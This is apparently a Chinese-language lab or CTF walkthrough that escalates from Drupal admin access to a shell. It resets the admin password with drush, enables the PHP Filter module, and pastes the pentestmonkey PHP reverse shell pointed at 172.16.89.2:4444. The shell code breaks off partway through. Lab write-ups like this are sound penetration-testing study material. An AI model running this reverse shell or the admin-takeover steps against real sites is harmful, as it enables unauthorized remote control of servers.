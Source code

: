 尝试ssh登陆成功

![image-20211005214900882](/assets/img/image-20211005214900882.png)

使用drush修改admin密码

```
cd /var/www/html
drush user-password admin --password="admin"
```

web使用admin登陆

登录后台,这里参考 https://www.sevenlayers.com/index.php/164-drupal-to-reverse-shell Drupal 后台提权的方法,进入 Manage-->Extend-->List-->Install new module

![img](/assets/img/11-20211005223343176.png)

访问下载插件 https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz ,直接下载或手动上传都行,自选

上传成功后,点击 Enable newly added modules

![img](/assets/img/12-20211005223401242.png)

到 FILTERS 选项，勾选 PHP Filter，点击下方的 Install

![img](/assets/img/13-20211005223411892.png)

回到主页，在左边的 Tools 栏中点击 Add content -> Basic page,Text format 选择 PHP code

![img](/assets/img/14.png)

写入一个 php 反向 shell 即可

找到一个可以直接利用的 php 源码 http://pentestmonkey.net/tools/web-shells/php-reverse-shell

```
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '172.16.89.2';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

```